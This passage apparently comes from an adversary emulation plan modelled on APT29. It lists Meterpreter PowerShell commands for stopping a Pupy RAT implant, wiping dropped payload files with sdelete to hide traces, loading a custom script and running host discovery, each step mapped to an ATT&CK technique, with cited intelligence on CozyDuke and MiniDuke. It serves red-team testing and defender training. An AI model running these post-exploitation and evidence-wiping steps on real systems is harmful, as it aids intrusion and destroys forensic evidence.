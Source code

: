 [meterpreter (PowerShell)\*] >

```powershell
if (-Not (Test-Path -Path "C:\Program Files\SysinternalsSuite")) { Move-Item -Path $env:USERPROFILE\Downloads\SysinternalsSuite -Destination "C:\Program Files\SysinternalsSuite" }
```

[meterpreter (PowerShell)\*] > `cd "C:\Program Files\SysinternalsSuite\"`

##### 4.B - Indicator Removal on Host: File Deletion ([T1107](https://attack.mitre.org/versions/v6/techniques/T1107/) / [T1070.004](https://attack.mitre.org/techniques/T1070/004/))

Terminate Pupy RAT process:

[meterpreter (PowerShell)\*] > `Get-Process`

[meterpreter (PowerShell)\*] > `Stop-Process -Id <rcs.3aka3.doc PID> -Force`

You may now close Pupy.

From Metasploit:

[meterpreter (PowerShell)\*] > `Gci $env:userprofile\Desktop`

[meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:USERPROFILE\Desktop\?rcs.3aka.doc"`

[meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:APPDATA\Draft.Zip"`

[meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:USERPROFILE\Downloads\SysinternalsSuite.zip"`

Import custom script, readme.ps1:

[meterpreter (PowerShell)\*] > `Move-Item .\readme.txt readme.ps1`

[meterpreter (PowerShell)\*] > `. .\readme.ps1`

##### 4.C - Discovery ([T1016](https://attack.mitre.org/techniques/T1016/), [T1033](https://attack.mitre.org/techniques/T1033/), [T1063](https://attack.mitre.org/versions/v6/techniques/T1063/) / [T1518.001](https://attack.mitre.org/techniques/T1518/001/), [T1069](https://attack.mitre.org/techniques/T1069/), [T1082](https://attack.mitre.org/techniques/T1082/), [T1083](https://attack.mitre.org/techniques/T1083/))

[meterpreter (PowerShell)\*] > `Invoke-Discovery`

#### Cited Intelligence

* Open Invitation Contributors: Kaspersky, Microsoft, SentinelOne

* CozyDuke has been instructed to download and execute other executables, which in some cases included common hacking tools such as PSExec ([S0029](https://attack.mitre.org/software/S0029/)). <sup>[1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf) </sup>

* MiniDuke can download and execute new malware and lateral movement tools.<sup> [3](https://securelist.com/the-miniduke-mystery-pdf-0-day-government-spy-assembler-0x29a-micro-backdoor/31112/) </sup>
